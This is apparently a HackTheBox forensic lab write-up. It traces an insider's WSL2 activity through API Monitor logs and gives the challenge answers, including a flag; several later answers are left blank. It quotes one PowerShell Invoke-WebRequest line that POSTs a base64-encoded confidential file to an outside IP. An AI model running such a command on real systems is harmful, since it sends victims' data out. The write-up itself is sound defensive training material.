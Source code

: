 # Jugglin
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4cb55499-7ef4-4ed8-9329-06db9c054691)


## Lessons Learned:
- Conduct Forensic Analysis for .apmx64 file.
- Using API Monitor tool to analysis the file and intercept the function call.
- Identify string API API function call that can be intercepted to monitor keystrokes.
- Identify API function call that can be intercepted to monitor the behavior of WSL2.
- Identify string API function call that can be intercepted to monitor the usage of Windows Tool via WSL.
- Identify powershell module used to exfiltrate data from the victim machine.

## SCENARIO:

<p align="justify">Forela Corporation heavily depends on the utilisation of the Windows Subsystem for Linux (WSL), and currently, threat actors are leveraging this feature, taking advantage of its elusive nature that makes it difficult for defenders to detect. In response, the red team at Forela has executed a range of commands using WSL2 and shared API logs for analysis.</p>

## STEPS:
1. In this task, we're given a `.apmx64` file which we can analyze using API Monitor tool.
2. It is known that there is an insider that Forela Corporation that helps the attacker to gain access to the system.
3. Remembering Forela Corporation depends on the utilisation of WSL hence it's harder for us to detect. However the red team shared API logs for us to analyze.


> 1ST QUESTION --> ANS: whoami

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a58c216d-c29c-40dc-812f-1e1bcc317db7)


2. To identify the initial command executed by the insider, we need to monitor the API logs for `insider`.

> RESULT IN API Monitor tool.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/61e6541b-1b1d-41c0-aac0-64edb1f0ad6d)


3. Noticed, several **string** API function is called.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1af33836-065e-4656-953f-e439634309ca)


4. Reviewing each of them, found the first string function shall be our interest. Seems it used to map the UTF16 to a new character string.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c936c811-9084-4b69-adea-297cf08e5831)


5. So after `WideCharToMultiByte` API is called, another child API is also called --> `RtlUnicodeToUTF8N`. This API translate the specified Unicode string into a new string, using the UTF-8 code page.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/362aa80f-9a3d-4a77-ba2b-505b001d2246)


6. Then a `WriteFile` API is called, it is for writes data. Specifically for both synchronous and asynchronous operation --> I/O device.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9fa8d9f-1a03-417f-8bcf-6bbd8384da5a)


7. So following each this API call shall until it stops calling it, shall means the keystroke is stopped and the system is processing an output.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9721f443-ec1f-47c8-9c3a-8fa0b3e775a5)


8. Long story short, following each of them shall resulting to `whoami` command.
9. The result can be seen at index 36.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bc81061f-c4b1-421e-8ad5-0cf25c91570b)


> 2ND QUESTION --> ANS: `RtlUnicodeToUTF8N, WideCharToMultiByte`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/93ee9549-38e9-431f-b4e6-fd9d4db829bd)


10. Based from our previous analysis, APIs can be used to monitor the keystrokes should be `WideCharToMultiByte` function and `RtlUnicodeToUTF8N` function.
11. Previously we identified the keystroke after `WideCharToMultiByte` function call and if you notice, there is a child API function call named `RtlUnicodeToUTF8N`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bb3ade3e-0b61-4860-8a65-87cbf454ef29)


> 3RD QUESTION --> ANS: kali

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fbbcd47-1874-4b3a-a4e1-4a60948393a4)


12. After the execution of **whoami** command, we identified that the insider is interacting with a linux distribution named `kali`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/97589b9e-1a78-4f0a-b0c2-e69143efe373)


> 4TH QUESTION --> ANS: flag.txt

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9c73db6f-c2d2-4a30-8ef5-014dc9945318)


13. To identify the accessed file by the insider, we can use our previous method to identify the command executed by the insider.
14. Simply follow the previous APIs used to monitor the keystrokes.
15. Based from the log at index 109, we can see that the insider traversed to `/mnt/c/Users/karti/onedrive` directory.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/58e6916a-a4a2-4a27-8174-c1cef2a586a2)


16. Then the insider reached `desktop`. Seems the file accessed is at the desktop.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/00020cc0-298c-47d8-abee-a2dc7bdcd8dd)


17. Long story short, again simply by following the keystrokes we can identify that the insider executed `cat flag.txt`, then the content or output can be seen by checking the `WriteFile` module. Now we know that the insider accessed **flag.txt** file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/df902e20-d221-474b-880a-7f5a07cfe06c)



> 5TH QUESTION --> ANS: HOOK_tH1$_apI_R7lUNIcoDet0utf8N

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0f4543e8-75d1-4155-b0bc-34e2ca218bc8)



> 6TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9facab44-2a2b-44b2-8c61-ee2cadb09b5a)


18. Again, using the previous method, we identified that the insider tried to exfiltrate another data from the victim machine. it's a txt file named **Confidential**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a583fa50-dde3-4cf9-91a0-f658bf8f947b)


```pwsh
PAYLOAD USED:

powershell.exe -c "Invoke-WebRequest -uri http://3.6.165.8/ -Method POST -Body ([System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes(\"C:\confidential.txt\")))"
```

> 7TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/208cef87-467d-4ac6-b57d-7fc451e123dd)


> 8TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7784474-d9fc-4c32-95b5-2c42bf7bedeb)


> 9TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f345e08e-65fc-44a2-809f-a172de4a637f)


> 10TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa73fe3d-f959-4995-82c8-0304909d4809)


> 11TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3fca114f-def3-4024-b1ff-36dd07d9661a)


> 12TH QUESTION --> ANS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0bbd4fe3-f547-4140-9e50-129e242890f2)


## IMPORTANT LINKS:

```
https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/
```
